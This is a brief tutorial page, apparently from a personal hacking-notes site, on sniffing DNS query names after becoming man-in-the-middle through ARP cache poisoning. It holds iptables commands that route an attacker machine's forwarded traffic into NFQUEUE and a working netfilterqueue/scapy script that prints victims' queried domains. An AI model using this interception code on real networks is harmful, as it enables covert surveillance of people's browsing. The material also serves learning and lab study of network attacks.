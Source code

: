 ```yaml
---
title: "DNS request sniffing"
date: 2023-09-09T21:43:00+07:00
---
```


After we become the [mitm][arp_cache_poisoning] we can sniff the DNS Question Record's QNAME field.  
I am using netfilterqueue here, but it could be done without it as well because we are not modifying any packets on the fly, we are only inspecting.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  


```python
import netfilterqueue
import scapy.all as scapy


def process_packet(packet):
    if packet.get_payload:
        try: scapy_packet = scapy.IP(packet.get_payload())
        finally:

            if scapy_packet:
                if scapy_packet.haslayer(scapy.DNSQR):
                    qname = scapy_packet[scapy.DNSQR].qname
                    print(qname)

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
